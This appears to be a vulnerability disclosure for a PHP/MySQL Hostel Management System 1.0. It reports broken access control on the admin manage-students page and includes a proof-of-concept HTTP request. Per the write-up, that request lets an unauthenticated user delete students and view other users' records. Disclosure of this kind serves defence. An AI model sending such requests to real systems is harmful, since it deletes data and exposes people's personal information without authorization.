 ## Vulnerability Details

**Credits**:
  > Paul Rivera: (https://github.com/blackslim3)<br/>

**Tested On**:
  > Hostel Management System using PHP and MySQL 1.0 : https://github.com/Surya2Developer/Hostel_Management_System/

**Affected Version**:
  > Hostel Management System using PHP and MySQL 1.0

**Affected Site Page**:
  > /admin/manage-students.php

**Affected Code**:
  > manage-students.php

**Related CWE**:
  > CWE-284: Improper Access Control: https://cwe.mitre.org/data/definitions/284.html

## **Details**:
  > Broken access controls allow users to access resources or perform actions they should not be able to.
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/manage-students.png)

  Replace the value of the `del` parameter to any value from 1-10, then send the request. 

```http
GET /hostel/admin/manage-students.php?del=8 HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```
    Notice the 'Data Deleted' alert indicating the registered student is deleted. Additionally on the HTTP response, all the remaining registered users along with their information can be viewed.
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/unauthenticated_deleteStudent_datadeleted.png)
![image](https://github.com/blackslim3/cve_sidequest/blob/main/poc/assets/information%20disclosure_manageStudents.png)

## **Vulnerability Impact**:
    Allows an unauthenticated attacker to delete registered users and view all the remaining registered users.
    
